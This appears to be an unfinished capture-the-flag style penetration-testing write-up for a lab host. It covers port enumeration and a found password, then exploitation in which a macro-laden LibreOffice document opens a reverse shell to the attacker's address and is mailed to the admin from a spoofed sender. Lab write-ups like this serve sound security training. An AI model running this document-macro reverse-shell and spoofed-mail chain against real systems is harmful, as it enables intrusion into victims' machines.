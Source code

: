 #Pwned! 
```IP
192.168.187.140
```
# Enumeration
## SMTP 25
## Finger 79
```
perl finger-user-enum.pl -U ../../users.txt -t 192.168.187.140
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207171044.png?raw=true)
## IMAP 143 imapd 4.62
We discover here 2 things. the first one is that the password discovered in http 8000 works here
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207173958.png?raw=true)
secondly, the server appears to be processing automatically spreadsheets and documents
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207173911.png?raw=true)
We also know that we need to send it to mailadmin 
```
mailadmin@localhost
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207174320.png?raw=true)

## HTTP 443

possible usernames in dir /team
```
agnes
charlotte
ela_arwel
jonas
magnus
martha
```
## HTTP 8000
we find a password
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241207172748.png?raw=true)
```
SicMundusCreatusEst
```
## HTTP 2224
mlss
Mercury/32

## FTP 20001 FileZilla ftpd 0.9.41 beta
couldnt find anything interesting

# Exploitation
For the malicious libreoffice odt file we will need to create a macro that executes automatically a revshell
We will use the following script
https://github.com/0bfxgh0st/MMG-LO/blob/main/mmg-odt.py
from
https://github.com/0bfxgh0st/MMG-LO/tree/main
```
python mmg-odt.py windows 192.168.45.228 4444
```

```
sudo swaks -t mailadmin@localhost --from jonas@localhost --attach @file.odt --server 192.168.187.140 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement

